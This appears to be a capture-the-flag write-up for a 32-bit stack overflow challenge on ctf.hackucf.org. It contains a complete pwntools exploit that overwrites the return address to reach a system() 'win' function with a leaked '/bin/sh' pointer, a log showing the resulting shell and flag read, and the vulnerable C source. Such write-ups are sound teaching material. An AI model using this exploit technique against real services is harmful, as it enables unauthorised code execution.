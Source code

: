 We are given a binary, and running the application gives us the following output after entering aaaa

```language-bash
------Test Your Memory!-------

8bGyUdjA5Z
I know that mine is fine...see? : 0x8048980
Let's see how good your memory is...

>aaa
sorry, your memory sucks
```
So straight away it seems like we are given two memory addressed and we have to use them some how. We are given the c-code below as well.

Taking a look at the c-code (also given at the bottom), we see a global variable `hint` and that the memory address is being leaked with `printf("%p \n", hint);`

and that the that the outputted `8bGyUdjA5Z` is a randomly generated canary. Our input is checked against the canary here as well..

**BUT there is no need to check the canary**
Doesn't matter anyways. Easy to add to the code but it doesn't matter, and in a timed ctf you shouldn't add it. So after trial in error I found the buffer size to fill the stack up to the return address to be 23. 
|Note: 23 is also the amount of characters in "God Bless Le Memezzzzzz"       

So we fill the buffer pass the return address, and then pass the const char "bin/sh" defined as a global 

```language-c
if(strncmp(buff, p, sizeof(p)) != 0) {
	puts("sorry, your memory sucks\n");
}else {
	puts("good job!!\n");
}
```

# Exploit
So the exploit steps are
1. Grab the canary
2. Grab the address of the hint so we can go to the win function right bellow
    - ```lanauge-c
    const char* hint = "/bin/sh";
    void mem_test(char* p) {
    ```
3. Find buffersize to overwrite the return address
    - found to be 23
4. Send payload "God Bless Le Memezzzzzz" + address of Win_func + address of hint*2. 
5. Note that the file is 32bit so `p32()` to wrap the addresses
6. Now you have a shell, rejoice. Cat some flags or something cool


# Running Exploit

```language-bash
kettle   master  ⋯  Pwn  75_memory_test  
 λ  python exploit.py 
[*] '/home/kettle/git_repos/ctf/ctf.hackucf.org/Pwn/75_memory_test/mem_test'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
    RPATH:    '/usr/local/lib:$ORIGIN'
[+] Opening connection to ctf.hackucf.org on port 9004: Done

------Test Your Memory!-------

7pXXnoYKbu
I know that mine is fine...see? : 0x8048980 

Let's see how good your memory is...
> God_Bless_Le_Memezzzzzzf\x88\x0\x80\x89\x0\x80\x89\x0
sorry, your memory sucks

[*] Switching to interactive mode
$ ls
flag.txt
mem_test
$ cat fla
cat: fla: No such file or directory
$ cat flag.txt
flag{i_forgot_the_flag}
$  

```

# Pwn Code
```language-python
from pwn import *

#context.log_level =False
local   = False
binary  = ELF('mem_test')

if local:
    conn = remote('localhost', 1234)
else:
    conn = remote('ctf.hackucf.org', 9004)

def getCanary():
    print conn.recvuntil("------Test Your Memory!-------" )
    conn.recvline() + conn.recvline()
    canary = conn.recvline()
    canary = canary.strip()
    canary = canary.strip('\n')
    print canary
    return str(canary)

def getMemAddress():
    #The output is :I know that mine is fine...see? : 0x8048980
    line = conn.recvline()
    print line
    memAddress = line.split(": ")[1]
    conn.recvuntil("> ")
    memAddress = p32(int(memAddress.strip(), 16))
    return memAddress

def makePayload(canary, memAddress):
    bufferFiller    = 23                # The amount of space we need to fill up
    returnAddress   = p32(0x8048866)    # Address of win_func
    hint            = p32(0x8048980)    # /bin/sh
    filler  = "God_Bless_Le_Memezzzzzz"
    assert len(filler) <= bufferFiller  # make sure meme is right length

    payload         = filler
    payload         += returnAddress
    payload         += hint*2           # since it pushes ebp+0x
    print "> " + payload
    return payload

def sendPayload(payload):
    conn.sendline(payload)
    conn.interactive()

if __name__ == "__main__":
    canary = getCanary()
    memAddress= getMemAddress()
    payload = makePayload(canary, memAddress)
    sendPayload(payload)
```


## c code

```language-c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include "pwnable_harness.h"

const char* hint = "/bin/sh";

void mem_test(char* p) {
	char buff[11];
	memset(buff, '\0', sizeof(buff));
	printf("\nI know that mine is fine...see? : ");
	printf("%p \n", hint);
	puts("Let's see how good your memory is...\n");
	printf("> ");
	scanf("%s", buff);

	if(strncmp(buff, p, sizeof(p)) != 0) {
		puts("sorry, your memory sucks\n");
	}else {
		puts("good job!!\n");
	}
}

void handle_connection(int sock) {
	int len = 10;
	char random[11];
	int i;
	static const char alphanum[] =
		"0123456789"
		"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
		"abcdefghijklmnopqrstuvwxyz";

	puts("\n\n\n------Test Your Memory!-------\n");
	srand(time(NULL));
	for(i = 0; i < len; ++i) {
		random[i] = alphanum[rand() % (sizeof(alphanum) - 1)];
	}
	printf("%s", random);
	mem_test(random);
}
void win_func(char* y) {
	system(y);
}
int main(int argc, char** argv) {
	/* Defaults: Run on port 9004 for 30 seconds as user "ctf_mem_test" in a chroot */
	server_options opts = {
		.user = "ctf_mem_test",
		.chrooted = true,
		.port = 9004,
		.time_limit_seconds = 30
	};
	return server_main(argc, argv, opts, &handle_connection);
}
```
